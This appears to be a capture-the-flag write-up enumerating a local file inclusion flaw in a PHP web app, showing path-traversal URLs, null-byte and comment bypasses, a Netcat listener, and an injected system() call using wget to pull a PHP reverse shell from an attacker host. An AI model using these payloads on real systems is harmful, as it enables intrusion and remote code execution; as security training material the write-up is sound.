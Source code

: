 ```
http://<TargetIP>/?view=cat/
http://<TargetIP>/index.php?view=cat
http://<TargetIP>/index.php?view=cat.php
```
At this point we are given an error warning us that `cat.php.php` did not exist and could not be opened for inclusion. From this we can infer that the URI is appended with `.php` through sanitisation and that script involves an PHP include statement. I continued to enumerate.
```
http://<TargetIP>/index.php?view=bird
```
Here we are returned with an error which we can infer that the URI must contain `cat` or `dog` to pass sanitsation.
```
http://<TargetIP>/index.php?view=cat/../dog
http://<TargetIP/index.php?view=cat/../../../../var/www/html/dog
```
These attempts were successful and an output for `dog` was returned. The web app was indeed vulnerable for LFI. The URI appeared to work with a relative file path to `index.php`
```
http://<TargetIP>/index.php?view=cat/../dog/../index
```
With this attempt we are met with an error which states that we cannot redeclare values for the `containsStr()`. This function may be what's used to sanititise for `cat` or `dog`.
From here I started doing additional research into what other things I could test for in the URI. As my knowledgebase was still relatively new, I didn't have a structured process to work through and just threw whatever I could find in various cheat sheets and LFI wordlists. I tried testing various PHP parameters to substitute for `view`.
```
http://<TargetIP>/index.php?page=cat/../dog
```
I attempted using various forms of null bytes and comment-outs which appeared to drop the appended`.php` but still failed to load any images
```
http://<TargetIP>/index.php?page=cat/../dog%00
http://<TargetIP>/index.php?page=cat/../dog#
```
I threw in special characters to see how the page reacted.
```
http://<TargetIP>/index.php?page=cat/../dog!"#$%&'()*+,-./:;<=>?@[\]^_`{| }~
```
An error was output with this request, and I worked backwards to determine what symbols were affecting the script.
```
# - Comments out following
/# - Comments out leading
" - filtered to %22
' - filtered to %22
& - filtered out
% - filtered to %27
```
I started making attempts at inserting various [wordwraps](https://www.geeksforgeeks.org/protocols-and-wrapper-in-php/) into the URL which included trying to engage a reverse shell. It was revealed that RFI was not going to be possible due to the `Apache` server’s config. I had set up a `Netcat` listener prior when making attempts at sending reverse shell commands.
```bash
nc -lvnp 1234
```
```
http://<TargetIP>/index.php?page=http://google.com
  Disabled by allow_url_include=0

http://<TargetIP>/index.php?page=php://<? system('wget http://<AttackIP>:4443/php-reverse-shell.php -O /var/www/php-reverse-shell.php');?>
```
Through a cheat sheet I found the wrapping which allowed for a `base64` encoding and started attempting to see what output I got. The site would load up an encoded string which I would decode manually to see what was produced.